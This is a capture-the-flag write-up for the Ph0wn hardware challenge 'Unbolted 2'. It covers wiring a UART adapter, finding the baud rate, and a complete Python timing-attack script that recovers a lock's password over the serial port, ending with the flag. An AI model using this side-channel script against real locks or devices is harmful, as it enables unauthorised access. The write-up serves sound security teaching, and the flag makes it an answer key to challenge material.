 # Unbolted 2 by Le Barbier and Cryptax

This challenge was created by **Le Barbier**. The write-up is by Le Barbier and *Cryptax*.

## Description

The description of the challenge gives us a beautiful shakespearian poem:

```
In Wooku Manor's maze, love's tale takes flight,
Pico, the ardent suitor, glimpses Juliet's light.
Facing yet another lock, his heart in a race,
The serial port, a barrier to embrace.

With urgency, he must connect and align,
Time, the essence, as the stars start to incline.
"Oh, Juliet, within this port doth lie,
The key to reunite, under night's celestial sky.

Time, a fleeting wisp in fate's grand design,
Unlocking this port, our destinies entwine."
```

There are 2 hints in this description:

1. Serial port
2. Time

## Connecting to the serial port

We connect the board to a UART to USB device:

- GND of board to GND of UART2USB
- 3V3 of board to 3V3 of UART2USB
- RX of board to TX of UART2USB
- TX of board to RX of UART2USB

![](./images/unbolted2-uart-to-lock.jpg){ width=70% }

## Baud rate

Then we connect to the board: `picocom /dev/ttyUSB0 -b 9600`. But it does not respond... The baud rate is perhaps wrong. 

So, we try baud rates standard baud rates:

```python
import serial

baudrates = [1200, 2400, 4800, 9600, 19200, 38400, 57600, 115200]

for baud in baudrates:
    try:
        print(f'Trying with baud rate={baud}')
        ser = serial.Serial('/dev/ttyUSB0', baudrate=baud, timeout=2)
        if not ser.is_open:
            ser.open()
        ser.write(b'test\r')
        data = ser.read(20)
        if data != b'':
            print(f'Answers wit baud rate={baud} data={data}')
            break
    except Exception as e:
        print(e)
        pass
```

We run the program and see the device uses baud rate **57600**:

```
Trying with baud rate=1200
Trying with baud rate=2400
Trying with baud rate=4800
Trying with baud rate=9600
Trying with baud rate=19200
Trying with baud rate=38400
Trying with baud rate=57600
Answers wit baud rate=57600 data=b'\r\nBad Command, try a'
```

## 

So, we connect with `picocom /dev/ttyUSB0 -b 57600`. We get the following menu:

```
Bad Command, try again !



Please enter your command (Only available by an administrator) :

		**RESET     : Reset the lock system
		**EMERGENCY : Only for emergency opening
		**ERASE     : Erase Logs
		**FLAG      : Ph0wn CTF flag
		**HELP      : This menu

Type your command here:
```

All commands require a password:

```
RESET

Enter your password : 
test

Bad Command, try again !
```

We try the FLAG command. It requires a password too:

```
Enter your password : 

*** local echo: yes ***
t
Incorrect password!
```

However we notice the program takes longer if we provide a password beginning with `ph0wn{`. If we supply password `verylong`, it answer quickly. So, we suppose this is because indeed the password begins with `ph0wn{` and that there is a time attack, as hinted by the description.

## Implementing the time attack

The time attack consists in supplying potential password characters until one of the character takes substantially more time to check by the program: it means the character is correct and program needs to test the next character. 

As time measurements can vary, we measure time several times for the same character and take the average value.

The solution script is written at the end. It finds the flag in a few minutes.

![](./images/unbolted2-running.png){ width=60% }

The flag is `ph0wn{U4rT_t1m1Ng_4tT4cK}`.

## Solution script

```python
import serial
import time
import string
from statistics import mean

# Open serial connection
ser = serial.Serial('/dev/ttyUSB0', 57600)

if not ser.is_open:
    ser.open()

print('Connected')   

# Send FLAG command
command = b'FLAG\r'
print(f"==> {command}")
ser.write(command)
print(f"<== {ser.readlines(3)}")
print(f"Starting time: {time.ctime()}")

# Timing attack
password = ""
old_average = 0.0

while True:
    average = []
    # Iterate over 3 random characters to have a correct starting average:
    for c in '#|~"':
        tmpPwd = password + c + "\r"
        start_time = time.time()
        ser.write(bytes(tmpPwd, "utf-8"))
        result = ser.readlines(2)
        average.append(time.time() - start_time)

        print(f'Average computed: {average}')
    
    # Iterate over all printable characters
    for c in string.printable:
        tmpPwd = password + c + "\r"
        print(f'Trying {tmpPwd}')
        start_time = time.time()
        ser.write(bytes(tmpPwd, "utf-8"))
        result = ser.readlines(2)
        if "Incorrect password" not in str(result):
            print(f"Flag: {password+c}")
            print(f"Ending time: {time.ctime()}")
            exit()
        current_time = time.time() - start_time
        average.append(current_time)
        current_average = mean(average)
        
        # If response time is higher than usual
        if (current_time-old_average) > (current_average-old_average)*1.3:
            print(f'Higher than usual, lets retry 3 times')
            start_time = time.time()
            ser.write(bytes(tmpPwd, "utf-8"))
            result = ser.readlines(2)
            current_time = time.time() - start_time
            # Retry 3 times to be sure that the response time is always higher
            correct_average = []
            for i in range(3):
                start_time = time.time()
                ser.write(bytes(tmpPwd, "utf-8"))
                result = ser.readlines(2)
                current_time = time.time() - start_time
                correct_average.append(current_time)
                
            # If it's the case, we found a new character
            if (mean(correct_average)-old_average) > (current_average-old_average)*1.3:
                old_average = current_average
                password += c
                print(f'password={password}')
                break
        
print(password)
```

\newpage
